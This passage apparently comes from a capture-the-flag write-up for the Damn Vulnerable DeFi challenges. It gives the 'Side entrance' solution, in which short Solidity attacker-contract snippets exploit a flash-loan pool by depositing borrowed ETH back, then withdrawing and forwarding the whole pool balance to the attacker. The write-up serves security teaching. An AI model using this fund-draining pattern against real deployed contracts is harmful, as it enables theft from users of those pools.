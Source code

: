 After the approval, I drained all the pool funds by calling `transferFrom()`.

***

## Side entrance

#### Challenge description

> A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.
>
> This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.
>
> You must take all ETH from the lending pool.

#### Solution

SideEntranceLenderPool's `flashLoan()` function expects to interact with a contract and call its `execute` function forwarding the value that the borrower requests (`amount`). This contract is open to reentrancy vulnerabilities and it can be exploited to drain its funds.

Then, the `flashLoan()` function checks the following:

```cs
require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back"); 
```

Meaning the funds can be returned to the contract through `deposit()`:

```cs
function execute() external payable {
    pool.deposit{value: msg.value}();
}
```

Given the reentrancy vulnerability, we can call `deposit()` in `execute()` with the funds obtained from the flash loan, which credits them to the attacker contract address in the `balances` mapping.

This entitles the attacker contract to withdrawing the full pool contract balance, which can be then forwarded to the attacker address:

```cs
function withdrawFromPool() external payable {
    pool.withdraw();
}

receive() external payable {
    payable(owner).sendValue(msg.value);
}
```

***

## The rewarder
